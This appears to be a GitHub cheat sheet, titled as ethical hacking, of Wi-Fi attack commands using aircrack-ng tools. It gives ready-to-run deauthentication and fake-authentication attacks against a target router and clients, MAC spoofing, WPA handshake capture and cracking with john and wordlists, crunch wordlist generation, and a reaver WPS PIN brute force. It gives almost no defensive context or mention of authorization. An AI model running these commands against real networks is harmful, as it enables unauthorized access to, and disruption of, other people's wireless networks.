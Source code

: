 # Ethical Hacking Cheat Sheet

|Basic Commands|Advance Commands|
|--------------|----------------|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
---

# Network Manager commands

> ### Kill Network Manager
```bash
airmon-ng check kill
```

> ### Enable Network Manager

```bash
service NetworkManager start
```

> ### Restart Network Manager
```bash
systemctl restart NetworkManager
```

> ### Check Status of Network Manager
```bash
systemctl status NetworkManager
```
---

# Network Adapter Testing Commands

> ### Enable Monitor Mode
```bash
airmon-ng start wlan0
```

> ### Disable Monitor Mode
```bash
airmon-ng stop wlan0
```

> ### Packet Injection test
```bash
aireplay-ng --test wlan0
```

> ### Access Point Creation test

you can put any fake MAC Address like this `00:01:02:03:04:05`
```bash
airbase-ng -a 00:01:02:03:04:05 --essid "<AP_name>" -c {channel_no.} wlan0
```

---

# Changing MAC Address
```bash
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
# Sniff Network 

> ### Sniff Network around `2.4 GHz`
```bash
airodump-ng wlan0
```

> ### Sniff Network Both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band a wlan0
```

> ### Capture data both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band abg wlan0
```
---
> ### Capture Data using `airodump-ng`
```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} --write (file_name_without_extension) wlan0
```
to analyze data
```bash
wireshark
```
---

# Associate with router
```bash
aireplay-ng --fakeauth 0 -a {router_MAC_add} -h {Your_NIC_MAC_add} waln1
```

# DE-Authentication Attack
```bash
aireplay-ng --deauth {no_of_deauth_packets} -a {router_MAC_add} -c {target_MAC_add} wlan0
```
if it`s fails then, target router on specfic channel

```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} wlan0
```

# Fake-Authentication Attack
```bash
aireplay-ng --fakeauth {delay} -a {router_MAC_add} -h {your_NIC_MAC} wlan0
```

# WPA Handshake Capture
```bash
airodump-ng --bssid {router_MAc_add} --channel {channel_no.} --write {file_name_without_extn} wlan0
```

# Crack Password Using `Handshake file`

> ### `.cap` to `.hccap`
```bash
aircrack-ng {.cap} -J {extension_name_not_required}
```
> ### `.hccap` to `.txt`
```bash
hccap2john {.hccap} > {.txt}
```
> ### Crack Password
```bash
john {.txt}
```

---

# WPA-key Cracking using `wordlist`
```bash
aircrack-ng {.cap} -w {Wordlist.txt}
```
## create word list
```sh
man crunch
crunch 6 8 {key length} abc12 {char used} -o test.txt
```
## Create word list using pattern
```sh
crunch {key_length Ex: 6 8} {char_used Ex: abc12} -o {.txt} -t {patter Ex: a@@@@b}
```

---
# WPA / WPA2 Cracking `Without Word list`

> ## Scan WPS Enable Network Around us

```sh
wash --interface wlan0
```

>[!WARNING]\
>Current version of reaver have some bugs, you can use old version

> ## Brute force the pin attack
```sh
reaver --bssid {router_MAC_add} --channel {channel_no.} --interface wlan0 -vvv --no-associate 
```

# =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)

